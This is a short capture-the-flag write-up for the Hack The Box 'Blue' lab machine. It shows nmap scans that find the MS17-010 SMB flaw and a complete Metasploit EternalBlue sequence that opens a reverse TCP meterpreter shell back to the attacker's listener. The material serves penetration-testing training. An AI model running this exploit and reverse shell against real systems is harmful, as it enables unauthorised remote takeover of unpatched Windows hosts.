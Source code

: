 # HTB - Blue

## Summary

This is a trivially easy box that just involves using EternalBlue in metasploit to gain a root SYSTEM shell  

<br />

## Scanning

Initial nmap scan shows several Windows ports open (135, 139, 445), including SMB: 445  

We can further enumerate SMB with:
- `nmap -sV -sC -p 445 10.10.10.40`

From that, smb-os-discovery shows us that this is Windows 7 Service Pack 1  

Windows 7 Service pack 1 may be vulnerable to EternalBlue  

To further enumerate this potential vulnerability, we can run:
- `nmap --script "safe and vuln" -p 445 10.10.10.40`

The output looks like this:
```
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

So yes, this thing is vulnerable to EternalBlue  

<br />

## Metasploit

This is pretty straight forward:
```
msf> use exploit/windows/smb/ms17_010_eternalblue
msf> set payload windows/x64/meterpreter/reverse_tcp
msf> show options
msf> set LHOST tun0
msf> set LPORT 8686
msf> set RHOSTS 10.10.10.40
msf> run
msf> shell
```

Then you just use `dir` and `type` to find the user flag and admin flag
